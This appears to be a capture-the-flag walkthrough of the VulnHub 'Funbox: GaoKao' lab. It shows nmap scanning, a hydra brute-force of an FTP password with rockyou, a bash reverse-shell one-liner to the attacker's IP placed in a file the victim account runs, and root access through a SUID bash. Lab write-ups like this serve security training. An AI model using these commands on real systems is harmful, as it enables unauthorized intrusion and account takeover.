










Funbox: GaoKao  (Source: https://www.vulnhub.com/entry/funbox-gaokao,707/)

Let's start off by finding out what our target machine's IP address is.

    nmap -sn 192.168.240.0/24

        -sn         -->     Skips port discovery

        ..0/24      -->     Scans the entire subnet

    192.168.240.1       -->     Virtual Router

    192.168.240.2       -->     DHCP Server

    192.168.240.15      -->     Target Machine (funbox9)

    192.168.240.3       -->     Attacking Machine (Kali)

Now that we know that the the target machine's IP is 192.168.240.15, we can try to learn more about the ports and services running on this machine.

    nmap -p- -sVC -T 4 192.168.240.15 -oN results.txt

        -p-     -->     Scans all 65535 ports

        -sVC    -->     Enables service version detection and runs default nmap scripts

        -T 4    -->     Sets the timing option to 4 (default: 3)

        -oN     -->     Saves the output to a file called 'results.txt'

From the picture above, we can see that the ports 21, 22, 80 & 3306 are open for connections.

    21/tcp      -->     FTP

    22/tcp      -->     SSH

    80/tcp      -->     HTTP (Unencrypted)

    3306        -->     MySQL

We can also see that the FTP daemon allows anonymous logins, and there's also a file called 'welcome.msg' accessible to us. These welcome files often contain a username, so that users can go to them with any questions or concerns.

The welcome message leaks a username called 'sky'. I also downloaded the welcome.msg file, but after inspecting it, I realized it was just the same message.

Now that we have a username, and anonymous FTP is a dead end, we can try to crack sky's password using hydra and the rockyou wordlist.

    hydra -l sky -P /usr/share/wordlists/rockyou.txt ftp://192.168.240.15:21

As you can see from the picture above, the credentials are sky:thebest. While hydra was running, I also checked out the website but it was just the default Apache2 site.

We can now use these credentials to log into FTP.

From what we can see, the file 'user.flag' is marked as executable and the user who executes it, is called 'sarah'. We can modify the file and reupload it.

    bash -c 'bash -i >& /dev/tcp/192.168.240.3/10000 0>&1'

This is how the file looks after modifying it. The injected command spawns a reverse shell to this system, as the user sarah. Now all we have to do is upload it

    put user.flag

and wait for it to be executed. Don't forget to start a listener on that specific port!

Now that we have a shell as sarah (note that we do not know sarah's password), we can start looking for the flags, and afterwards begin the process of privilege escalation to obtain the root flag.

If you remember, there was a file in /home/sky called 'user.flag'. That's our user flag.

    User flag:  88jjggzzZhjJjkOIiu76TggHjoOIZTDsDSd

I also found another user account called 'lucy', but after inspecting the home directory, I found nothing interesting. I also tried looking at the .bash_history files in each directory, but I was always denied permission.

I checked scheduled cron jobs and looking for files with the SUID bit set.

bash has the SUID bit set. We can attempt privilege escalation by running:

    bash -p

        -p  -->  Bash doesn't drop any privileges according to the SUID bit.

Now that we're running as root, we can find the root flag.

I found the root flag in /root/root.flag.

Thank you for reading!